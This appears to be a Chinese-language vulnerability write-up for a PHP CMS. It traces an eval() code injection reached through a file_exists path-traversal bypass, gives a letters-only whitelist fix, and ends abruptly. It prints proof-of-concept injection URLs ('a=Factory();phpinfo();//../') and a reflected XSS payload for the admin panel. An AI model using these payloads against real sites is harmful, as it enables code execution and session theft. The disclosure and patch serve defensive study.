 ```php
		return self::$_obj;
	}
	static public function getA(){
		if(isset($_GET['a']) && !empty($_GET['a'])){
			return $_GET['a'];
		}
		return 'login';
	}
}
?>
```

拼接

```
eval('self::$_obj = new '.ucfirst($_a).'Action();');
Factory();phpinfo();//../
```

其中setAction()方法首先调用getA()方法获取GET传输的过来得a参数并赋值给a，紧接着利用in_array()函数进行检查，其中如果`$_a`变量包含数组中的变量，页面将会跳转。 然后file_exists()函数进行检查页面文件是否存在，如果不存在则将$_a赋值成Index，最后调用eval（）执行PHP代码。如果能够让eval成功执行代码，必须成功逃逸file_exists函数。
file_exists函数主要作用是检查文件是否存在，但是这个函数在进行检查会有一个bug，如/controller/admin;/…/，函数允许路径中有一些特殊字符，并且遇到/…/会返回到上级目录，可以利用这个策略逃逸出file_exists（）函数检查，最后一个利用点eval可以执行多条语句，如：eval(echo 1;echo 2;);可以成功执行两条语句。 

```
config/count.php?a=Factory();phpinfo();//../
admin/index.php?a=Factory();phpinfo();//../
```

### 修改

添加路径白名单(只允许字母通过)

```
if (preg_match('/^[a-z]{1,}$/i', ucfirst($_a))) {
    if (!file_exists(ROOT_PATH . '/controller/' . ucfirst($_a) . 'Action.class.php')) $_a = 'Login';
    eval('self::$_obj = new ' . ucfirst($_a) . 'Action();');
    return self::$_obj;
} else {
    die('hacker!');
}
```

## 后台反射XSS

当然该cms还存在登录处验证码重放漏洞 反射型XSS漏洞 

```
XSS payload
http:xxx.xxx/admin/?a=html&art=<sCrIpT>alert(1)<%2FsCrIpT>&m=arts
```

在 ` /compile/%%D8^D83^D83C04B9%%createhtml.tpl.php `
